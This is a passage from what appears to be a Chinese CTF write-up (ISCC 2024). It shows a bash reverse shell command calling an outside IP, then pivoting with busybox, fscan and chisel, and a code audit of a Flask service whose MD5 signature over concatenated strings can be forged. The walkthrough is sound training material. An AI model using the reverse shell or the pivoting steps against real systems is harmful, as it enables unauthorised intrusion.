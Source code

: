 ```python
    return result

if __name__ == "__main__":
    main()

```

![image-20240601222012189](https://img.crzliang.cn/img/202406012237588.png)

命令: python main.py "bash -c 'bash -i >& /dev/tcp/47.94.237.26/8899 0>&1'"

![img](https://img.crzliang.cn/img/202406012237589.jpg)

得到的shell很多命令都没有，需要上传busybox进行操作

![img](https://img.crzliang.cn/img/202406012237590.jpg)

且daemon用户只有allPeple目录的权限

![img](https://img.crzliang.cn/img/202406012237591.jpg)

利用cat进行传输busybox

![img](https://img.crzliang.cn/img/202406012237592.jpg)

结合题目以及使用arp命令发现一个新的机器：secret.host.iscc2024_default (172.19.0.3)

![img](https://img.crzliang.cn/img/202406012237593.jpg)

用同样的方法上传fscan，扫出一个80端口

![img](https://img.crzliang.cn/img/202406012237594.jpg)

因为靶机上工具有限，所以利用chisel搭个隧道出来，然后使用dirsearch扫目录

![img](https://img.crzliang.cn/img/202406012237595.jpg)

扫出一个flag目录

![img](https://img.crzliang.cn/img/202406012237597.jpg)

### 代码审计

进行代码审计，得到：是一个flask服务，有两个接口：/geneSign和/De1ta

/geneSign接收一个param参数，并设置action=“scan”，然后使用key与这两个参数拼接在一起计算md5，作为签名返回。

在Exec()方法中首先使用action、param重新计算签名，与sign值对比，从而验证签名。然后判断action参数中是否有字符串”scan”，若有则将param作为文件名读取文件内容，并将读取的内容写入“已存在的文件”中。接着判断action中是否有字符串”read”，若有则从“已存在的文件”中读取内容，并且作为返回数据。

因此目的就是要使action参数中既有scan又有read，而param设置为flag.txt就可以。这样可以让flag先写入"已存在的文件"，然后再"已存在的文件"中读取出来。但geneSign()中设置了action="scan"，并且后面计算了签名。

这里的漏洞出现在签名时将各个字符串拼接在一起再计算md5，所以重新计算签名时，字符串的内容未必要和之前的一样，只要它们拼接起来一样就可以了。
